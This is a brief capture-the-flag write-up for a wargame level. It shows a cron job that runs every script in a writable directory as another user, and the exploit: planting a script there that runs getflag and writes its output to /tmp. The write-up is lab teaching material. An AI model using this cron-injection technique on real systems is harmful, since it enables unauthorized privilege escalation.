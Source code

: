 # Level 05

On connection: You have new mail.
Mail are hosted on `/var/spool/mail`.

```sh
$ cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
It's a crontab configuration who execute every two minutes the shell script in `/usr/sbin/openarenaserver` as flag05.

```sh
$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Let's inject our own script.
```sh
$ echo "exec /bin/getflag > /tmp/soluc" > /opt/openarenaserver/inject.sh
```

And after few minutes we can read `/tmp/soluc`
```sh
$ cat /tmp/soluc
```